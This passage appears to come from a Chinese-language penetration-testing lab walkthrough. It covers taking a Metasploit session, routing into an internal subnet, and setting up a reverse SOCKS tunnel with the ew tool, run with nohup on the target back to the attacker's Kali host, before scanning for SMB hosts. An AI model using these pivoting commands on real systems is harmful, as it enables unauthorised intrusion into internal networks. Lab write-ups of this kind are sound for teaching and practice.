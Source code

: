 ![image-20210508131606818](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210508131606818.png)

exploit后生成一串指令，在目标机器上执行

![image-20210508131657773](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210508131657773.png)

拿到session

![image-20210508131834219](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210508131834219.png)

之后添加路由，让msf进入内网93段

```
run autoroute -s 192.168.93.0/24
```

![image-20210508132425191](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210508132425191.png)



sock5代理，让kali进入内网93段

使用ew

```
https://github.com/idlefire/ew/blob/master/ew_for_linux64
```

kali使用scp将ew上传到目标机器

```
scp ew_forlinux firefart@192.168.21.58:/tmp/
```

![image-20210508134032534](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210508134032534.png)

kali执行

```
./ew_for_linux64 -s rcsocks -l 1080 -e 1234
```

![image-20210508134117188](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210508134117188.png)

目标机执行

```
nohup ./ew_for_linux64 -s rssocks -d 192.168.21.56（kali的ip） -e 1234 &
```

![image-20210508135246707](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210508135246707.png)

提示rsscocks cmd_socket OK就行

之后修改proxychains 

![image-20210508141908412](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210508141908412.png)

使用msf的smb扫描模块发现三台存活主机

